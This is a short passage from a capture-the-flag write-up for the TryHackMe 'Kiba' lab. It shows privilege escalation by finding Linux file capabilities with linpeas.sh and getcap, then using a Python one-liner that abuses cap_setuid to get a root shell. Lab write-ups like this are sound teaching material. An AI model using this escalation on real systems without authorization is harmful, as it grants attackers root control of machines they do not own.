 ## Privilege Escalation

check the capabilities using linpeas.sh
![f19c4230692a3ff111e9209269b8c4e9.png](/assets/images/thm-kiba/06.png)

or check using `getcap -r /`

![8bb6dd6198f0afd3c06a8520d747d892.png](/assets/images/thm-kiba/07.png)

**....**

![f5c4cf521d1e903ee73a4302497d7fba.png](/assets/images/thm-kiba/08.png)

read about python priesc -> https://gtfobins.github.io/gtfobins/python/#sudo.

```
$ sudo setcap cap_setuid+ep /home/kiba/.hackmeplease/python3
$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![4dd45ba2abebd9cc044ab74dd4b7c32c.png](/assets/images/thm-kiba/09.png)

![6e2259d80cc60dc9d874061a310f21e1.png](/assets/images/thm-kiba/10.png)
